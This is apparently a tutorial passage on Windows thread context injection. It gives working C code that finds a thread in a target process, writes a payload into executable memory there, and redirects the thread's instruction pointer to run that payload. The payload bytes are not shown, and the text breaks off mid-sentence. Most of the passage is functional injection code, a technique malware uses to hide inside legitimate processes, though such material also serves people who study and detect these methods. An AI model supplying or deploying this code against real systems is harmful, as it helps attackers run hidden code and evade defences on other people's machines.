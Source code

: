 # Thread Context Injection
In this injection technique, we hijack a thread in the remote process and set the instruction pointer to our payload in the target process's address space. This forces the remote thread to run our payload instead of whatever it was doing. One major drawback of this technique is that, if we hijack a critical thread, we might end up crashing the program into which we are injecting. With that out of the way, let us look at the code. 

## The Code
The program has a familiar `main()` function:
```c
int main() {
    DWORD pid = find_pid(TARGET);
    int result = inject_thread_context(pid);
    return 0;
}
```
The `main()` function finds the Process ID (`pid`) of the target process and passes it onto the `inject_thread_context()` function, where the magic happens. 

But, before we get into the `inject_thread_context()` function, there is another function we need to take a look at first: `find_threadid()` - which is responsible for finding a valid Thread ID in the target process to which we can acquire a handle to.

The `find_threadid()` function has the following code:
```c
// Find thread ID in a process
DWORD find_threadid(DWORD pid) {
    THREADENTRY32 thEntry;
    thEntry.dwSize = sizeof(THREADENTRY32);
    HANDLE hThreadSnap = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, 0);
    BOOL result = Thread32First(hThreadSnap, &thEntry);
    while (Thread32Next(hThreadSnap, &thEntry)) {
        if (thEntry.th32OwnerProcessID == pid) {
            HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thEntry.th32ThreadID); 
            if (!IS_HANDLE_INVALID(hThread)) {
                CloseHandle(hThread);
                CloseHandle(hThreadSnap);
                return thEntry.th32ThreadID;
            }
            CloseHandle(hThread);
        }
    }
    CloseHandle(hThreadSnap);
    return 0;
}
```
It is _very_ similar to the `find_pid()` function we have been using so far. Just like with `find_pid()`, we use the `CreateToolhelp32Snapshot()` to create a system snapshot with the `TH32CS_SNAPTHREAD` parameter to include all threads in the system in the snapshot. 

We then use `Thread32First()` to retrieve information about the first thread of any process encountered in a system snapshot. Then, we iterate over the entries in the snapshot with `Thread32Next()` and check the `th32OwnerProcessID` value of the `THREADENTRY32` structs to see if it belongs to the target process. If it does, we try to open a handle to the thread with `OpenThread()`, and if a valid handle is acquired, we close all open Handles and return the Thread ID. (See: [this MSDN post](https://learn.microsoft.com/en-us/windows/win32/toolhelp/traversing-the-thread-list))

Coming back to the `thread_context_injection()` function, it has the following code:
```c
int inject_thread_context(DWORD pid) {
    CONTEXT ctx;
    DWORD dResult;
    BOOL bResult;
    DWORD bWritten = 0;
    DWORD thId = find_threadid(pid);
    HANDLE hThread = OpenThread(THREAD_ALL_ACCESS, FALSE, thId);
    HANDLE hProcess = OpenProcess( PROCESS_CREATE_THREAD | PROCESS_QUERY_INFORMATION | PROCESS_VM_OPERATION | PROCESS_VM_READ | PROCESS_VM_WRITE, FALSE, pid);

    LPVOID pRemoteCode = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
    bResult = WriteProcessMemory(hProcess, pRemoteCode, (PVOID) payload, (SIZE_T) payload_len, (SIZE_T *) &bWritten);

    dResult = SuspendThread(hThread);
    ctx.ContextFlags = CONTEXT_FULL;
    bResult = GetThreadContext(hThread, &ctx);
    #ifdef _M_IX86 
        ctx.Eip = (DWORD_PTR) pRemoteCode;
    #else
        ctx.Rip = (DWORD_PTR) pRemoteCode;
    #endif
    bResult = SetThreadContext(hThread, &ctx);
    dResult = ResumeThread(hThread);

    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hProcess);
    CloseHandle(hThread);
    return 0;
}
```

The function 